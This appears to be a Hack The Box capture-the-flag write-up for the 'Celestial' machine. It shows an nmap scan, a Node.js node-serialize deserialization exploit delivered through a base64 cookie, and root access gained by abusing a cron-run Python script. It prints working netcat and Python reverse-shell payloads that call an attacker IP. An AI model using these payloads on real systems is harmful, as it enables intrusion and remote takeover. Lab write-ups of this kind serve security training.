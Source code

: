 ```yaml
---
title: "[HTB] Machine: Celestial"
description: "[HTB] Machine: Celestial"
date: 2023-10-17
menu:
  sidebar:
    name: "[HTB] Machine: Celestial"
    identifier: htb-machine-Celestial
    parent: htb-machines-linux
    weight: 10
hero: images/celestial.png
tags: ["HTB", "nodejs", "deserialization", "pspy", "cron"]
---
```


# Celestial
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV 10.10.10.85                
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-18 16:43 BST
Nmap scan report for 10.10.10.85 (10.10.10.85)
Host is up (0.15s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.38 seconds
```

- Web Server

![](./images/1.png)

## Foothold/User
- If refresh the page, we have a `base64`-encoded cookie and a response `Hey Dummy 2 + 2 is 22` 
  - Which is decoded in my case as: `{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}`

![](./images/2.png)

- We could try `deserialization` attack on `NodeJS`
  - https://medium.com/@chaudharyaditya/insecure-deserialization-3035c6b5766e
  - https://exploit-notes.hdks.org/exploit/web/security-risk/nodejs-deserialization-attack/
  - https://book.hacktricks.xyz/pentesting-web/deserialization#node-serialize
  - https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

```                                                                                       
let y = {
 rce: function() {
  require('child_process').exec('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 6666 >/tmp/f', function(error, stdout, stderr) { console.log(stdout); });
 },
};
let serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

- Now create a payload using `node`
  - 
```
└─$ node serialize.js | tail -n 1
{"rce":"_$$ND_FUNC$$_function() { require('child_process').exec('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 6666 >/tmp/f', function(error, stdout, stderr) { console.log(stdout);});}"}  
```
- We have to add `()` to the end of the payload, so that it will be invoked
```
_$$ND_FUNC$$_function() { require('child_process').exec('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 6666 >/tmp/f', function(error, stdout, stderr) { console.log(stdout);});}()
```

- We have to encode it to `base64` and send it,
  - It will give an error that `username` is not valid, yet we should still receive our shell
  - We could also set any of the parameters of the cookie to our payload and send it, it should work
  - Launch a listener, set the cookie to payload and send

![](./images/3.png)
## Root
- For `sudo` we need password 
```
sun@celestial:~$ id
uid=1000(sun) gid=1000(sun) groups=1000(sun),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
sun@celestial:~$ sudo -l
[sudo] password for sun: 
```

- We have a script in `Documents` directory
```
sun@celestial:~$ ls -lha Documents/
total 12K
drwxr-xr-x  2 sun  sun  4.0K Sep 15  2022 .
drwxr-xr-x 21 sun  sun  4.0K Oct 11  2022 ..
-rw-rw-r--  1 sun  sun    29 Oct 18 11:34 script.py
lrwxrwxrwx  1 root root   18 Sep 15  2022 user.txt -> /home/sun/user.txt
sun@celestial:~$ cat Documents/script.py 
print "Script is running..."
```

- Could be cron, considering the file `output.txt` which has the same output
  - Running `pspy` proves that
  - The script is run by root

![](./images/4.png)

- Let's write to `script.py`
  - Payload from https://www.revshells.com/
```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.16.5", 7777));os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
import pty; 
pty.spawn("/bin/bash")
```

- Wait for execution and get the flag

![](./images/5.png)